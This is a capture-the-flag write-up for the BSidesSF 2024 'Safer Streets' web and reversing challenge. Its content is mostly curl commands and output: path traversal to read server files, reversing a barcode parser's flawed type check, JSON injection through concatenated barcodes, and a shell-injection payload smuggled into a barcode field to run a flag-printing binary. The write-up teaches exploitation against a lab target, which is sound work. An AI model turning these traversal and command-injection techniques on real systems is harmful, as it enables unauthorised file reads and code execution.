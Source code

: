 ```yaml
---
title: 'BSidesSF 2024 Writeups: Safer Streets (Web / reversing)'
author: ron
layout: post
categories:
- bsidessf-2024
- ctfs
permalink: "/2024/bsidessf-2024-writeups-safer-streets-web-reversing-"

---
```


This is a write-up for [Safer Streets](https://github.com/BSidesSF/ctf-2024-release/tree/main/safer-streets). I apparently wrote this in more "note to self" style, not blog style, so enjoy!

<!--more-->

First, browse the application. You should be able to create an error:

```
$ curl 'http://localhost:8080/display?name=test'
Error in script /app/server.rb: No such file or directory @ rb_sysopen - /app/data/test
```

Note that has a `image/jpeg` content-type, so it might confuse the browser.

That issue grants access to two primitives:

a) Read any file via path traversal

b) The full path to the server

For example:

```bash
$ curl -s 'http://localhost:8080/display?name=../server.rb' | head -n20
require 'json'
require 'sinatra'
require 'pp'
require 'singlogger'
require 'open3'

::SingLogger.set_level_from_string(level: ENV['log_level'] || 'debug')
LOGGER = ::SingLogger.instance()

# Ideally, we set all these in the Dockerfile
set :bind, ENV['HOST'] || '0.0.0.0'
set :port, ENV['PORT'] || '8080'

SAFER_STREETS_PATH = ENV['SAFER_STREETS'] || '/app/safer-streets'

SCRIPT = File.expand_path(__FILE__)

LOGGER.info("Checking for required binaries...")
if File.exist?(SAFER_STREETS_PATH)
  LOGGER.info("* Found `safer-streets` binary: #{ SAFER_STREETS_PATH }")
[...]
```

You can grab the `safer-streets` binary as well:

```bash
$ curl -s 'http://localhost:8080/display?name=../../../app/safer-streets' | file -
/dev/stdin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fa512a55e0fbc8c4ad80483379826183f29ce161, for GNU/Linux 3.2.0, with debug_info, not stripped
```

Inspecting the Ruby code shows an shell-injection issue if you control the output of `safer-streets`:

```bash
system("/usr/bin/report-infraction --node='#{result['node']}' --img='#{photo}'")
```

You can reverse or mess with the binary to discover that it's looking for an image file parameter:

```bash
$ safer-streets upc.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104"
}
```

But it won't work on non-UPC codes. I generated a barcode using [Code128](https://github.com/fhunleth/code128), then tried to decode it:

```bash
$ ./code128png exploit.png 'TEST CODE128'

$ file exploit.png 
exploit.png: PNG image data, 176 x 40, 1-bit grayscale, non-interlaced

$ safer-streets ./exploit.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
Invalid plate type: CODE-128!
```

But the logic is actually faulty; here's the C code:

```c
    zbar_symbol_type_t typ = zbar_symbol_get_type(sym);

    for (; sym; sym = zbar_symbol_next(sym)) {
      // unsigned len         = zbar_symbol_get_data_length(sym);
      if (typ == ZBAR_PARTIAL)
        continue;

      if(strcmp(zbar_get_symbol_name(typ), "EAN-13")) {
        fprintf(stderr, "Invalid plate type: %s!\n", zbar_get_symbol_name(typ));
        exit(1);
      }

      printf("%s", zbar_symbol_get_data(sym));
    }
```

Note that the `typ` check is outside the loop, which means if you have multiple barcodes they'll get concatenated (I hinted at that in one of the preview images by having two UPC codes) (it also needs to be bigger):

```bash
$ mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png

$ ./safer-streets combined.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104TESTCODE128"
}
```

Using that technique, you can do some JSON injection to add an extra node field:

```bash
$ ./code128png exploit.png 'test", "node": "hi' && mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png
```

Which will mess up the parsing:

```bash
$ ./safer-streets combined.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104test","node":"hi"
}
```

With `jq`, note that we can control `"hi"`:

```bash
$ ./safer-streets combined.png  | jq
{
  "node": "hi",
  "speed": "-1",
  "plate": "0123456789104test"
}
```

That, with the shell injection we mentioned above, we can create ourselves a payload:

```bash
./code128png exploit.png "test\", \"node\": \"hi'; /home/ctf/print-flag > /tmp/flag.txt; #" && mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png
```

Then submit that and grab the flag:

```bash
$ curl -F "photo=@./combined.png" http://localhost:8080/upload
$ curl 'http://localhost:8080/display?name=../../../../tmp/flag.txt'
CTF{show-me-your-best-images}
```

